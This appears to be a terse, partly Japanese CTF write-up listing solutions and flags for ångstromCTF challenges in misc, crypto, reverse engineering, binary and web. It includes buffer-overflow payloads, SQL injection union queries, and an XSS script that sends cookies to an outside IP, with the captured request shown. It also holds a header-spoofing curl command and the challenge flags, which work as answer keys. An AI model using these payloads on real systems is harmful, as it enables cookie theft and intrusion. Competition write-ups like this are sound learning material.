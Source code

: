# misc
## Sanity Check
discordのgeneralチャンネルの説明文
actf{always_gonna_give_you_up}

## Archaic
tar -xzvfするだけ。
actf{thou_hast_uncovered_ye_ol_fleg}

## fish
青空白猫で「アルファチャンネルを無効化」
actf{in_the_m0rning_laughing_h4ppy_fish_heads_in_th3_evening_float1ng_in_your_soup}

## Float On
0, 9221120237041090559, 9218868437227405312, 9209861237972664320, 9221120237041090559
actf{well_we'll_float_on,_big_points_are_on_the_way}

## Survey
actf{roly_poly_fish_heads_are_never_seen_drinking_cappuccino_in_italian_restaurants_with_oriental_women_yeah}

# crypto
## Relatively Simple Algorithm
actf{old_but_still_good_well_at_least_until_quantum_computing}

## Exclusive Cipher
Congratulations on decrypting the message! The flag is actf{who_needs_aes_when_you_have_xor}. Good luck on the other crypto!'
actf{who_needs_aes_when_you_have_xor}

## Keysar v2
単一換字式なので、頻出する"b'r" とかから気合で頑張る
actf{keyedcaesarmorelikesubstitution}

## sosig
wiener's attack
actf{d0ggy!!!111!1}

## Home Rolled Crypto
actf{no_bit_shuffling_is_trivial}

## Follow the Currents
それっぽいのがでてくる
there are like 30 minutes left before the ctf starts so i have no idea what to put here other than the flag which is actf{low_entropy_keystream}
actf{low_entropy_keystream}

## I'm so Random
二つのgeneratorの初期値の組を条件に合うように全探索して間に合う
actf{middle_square_method_more_like_middle_fail_method}

## Substitution
actf{polynomials_20a829322766642530cf69}

## Oracle of Blair
actf{cbc_more_like_ecb_c}

# rev
## free flags!!1!!
31337 → 419 723 (=302937) → banana
actf{what_do_you_mean_bananas_arent_animals}

## Revex
actf{reGEx_1s_b3stEx_qzuy}

# binary
## secure_login
for ((i=0;i<1000;i++)); do
    echo -e '\x00' | ./login
done
をすると1/256くらいの確率で当たる
actf{if_youre_reading_this_ive_been_hacked}

## tranquil
echo -e 'password123\x00AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x11\x40\x00' | ./tranquil
actf{time_has_gone_so_fast_watching_the_leaves_fall_from_our_instruction_pointer_864f647975d259d7a5bee6e1}

## sanity checks
echo -e 'password123\x00AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x11\x00\x00\x00\x3d\x00\x00\x00\xf5\x00\x00\x00\x37\x00\x00\x00\x32\x00\x00\x00' | ./checks
actf{if_you_aint_bout_flags_then_i_dont_mess_with_yall}

## stickystacks
actf{well_i'm_back_in_black_yes_i'm_back_in_the_stack_bec9b51294ead77684a1f593}

# web
## Jar
actf{you_got_yourself_out_of_a_pickle}

## Sea of Quills
"select %s from quills limit %s offset %s"

1,1,name from sqlite_master union all select url,desc,name  -> quills/flagtable が見える

tbl_name,rootpage,sql from sqlite_master union all select url,desc,name
- quills / 2 / CREATE TABLE quills ( url varchar(30), name varchar(30), desc varchar(30) )
- flagtable / 3 / CREATE TABLE flagtable ( flag varchar(30) )

1,1,sql from sqlite_master union all select url,desc,name  -> CREATE TABLE flagtable ( flag varchar(30) )
1,1,flag from flagtable union all select url,desc,name  -> actf{and_i_was_doing_fine_but_as_you_came_in_i_watch_my_regex_rewrite_f53d98be5199ab7ff81668df}
actf{and_i_was_doing_fine_but_as_you_came_in_i_watch_my_regex_rewrite_f53d98be5199ab7ff81668df}

## nomnomnom
- <script src="data:text/javascript,location.href='http://118.27.22.223:11111?cookie='+encodeURIComponent(document.cookie);"
  - https://techblog.securesky-tech.com/entry/2020/05/21/

```
GET /?cookie=no_this_is_not_the_challenge_go_away%3Dfb2ec42eec1c34187dc9153cb385e46b04a8daecb3838e8edb5226c6be8a53f4a8d377509ed0546fa0410ea66a638b71c61cc4b834a19521b15388590d97b9ca HTTP/1.1
Host: 118.27.22.223:11111
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost:9999/
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```
actf{w0ah_the_t4g_n0mm3d_th1ng5}

## Reaction.py
flask.escape ... &, <, >, ‘, ”
<div style="color:expression(alert('XSS'));">a</div>

<p>Welcome <strong>iii</strong>!</p><p>All letters: <div style="cor:xpn(a'XS);>/<br>Most frequent: 'e'x4</p><script src="https://www.google.com/recaptcha/api.js" async defer></script></body>
</html>


## Sea of Quills 2
colが24文字以下、["-", "/", ";", "'", "\"", "flag"]なし

* from Flagtable%00

actf{the_time_we_have_spent_together_riding_through_this_english_denylist_c0776ee734497ca81cbd55ea}

## Spoofy
echo -e '\x00' | curl -H 'X-Forwarded-For:1.3.3.7$1' https://actf-spoofy.herokuapp.com/

echo AA(echo -e '\x41')AA